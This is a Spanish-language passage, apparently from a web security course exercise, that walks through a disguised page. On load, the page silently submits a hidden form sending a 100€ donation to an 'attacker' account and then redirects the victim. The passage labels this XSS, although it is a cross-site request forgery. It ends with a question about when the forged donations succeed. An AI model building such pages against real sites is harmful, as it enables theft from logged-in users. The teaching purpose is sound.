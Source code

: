 - **Fachada de una página de donación:**
    
    ```html
    htmlCopiar código
    <!DOCTYPE html>
    <html lang="es">
    <head>
        <meta charset="UTF-8">
        <title>Comentario</title>
    </head>
    <body>
        <h1>Bienvenido</h1>
    
    ```
    
    Esta parte del código establece una estructura básica de una página HTML. Presenta un título ("Comentario") y un mensaje de bienvenida ("Bienvenido").
    
- **Formulario con datos falsificados:**
    
    ```html
    htmlCopiar código
        <form id="donationForm" method="POST" action="http://web.pagos/donate.php?amount=100&receiver=attacker">
            <input type="hidden" name="comment" value="<?php echo 'Este es un comentario'; ?>">
        </form>
    
    ```
    
    Aquí hay un formulario que parece ser para hacer una donación. Sin embargo, el campo "comment" es un campo oculto que contiene un valor fijo ("Este es un comentario"), pero el intento de usar código PHP aquí es incorrecto porque PHP no se ejecutará en el navegador.
    
- **Ataque XSS mediante JavaScript:**
    
    ```html
    htmlCopiar código
        <script>
            window.onload = function() {
                document.getElementById('donationForm').submit();
                setTimeout(function() {
                    window.location.href = "show_comments.php?id=<?php echo $row['playerid']; ?>";
                }, 100);
            };
        </script>
    
    ```
    
    Este script se ejecuta cuando la página se carga completamente. Envía automáticamente el formulario de donación y luego, después de un breve retraso, redirige al usuario a una página llamada "show_comments.php" con un parámetro "id".
    
    c) Pero 'web.pagos' sólo gestiona pagos y donaciones entre usuarios registrados, puesto que, evidentemente, le tiene que restar los 100€ a la cuenta de algún usuario para poder añadirlos a nuestra cuenta.
    
    Explicad qué condición se tendrá que cumplir por que se efectúen las donaciones de los usuarios que visualicen el mensaje del apartado anterior o hagan click en el botón del apartado a).
    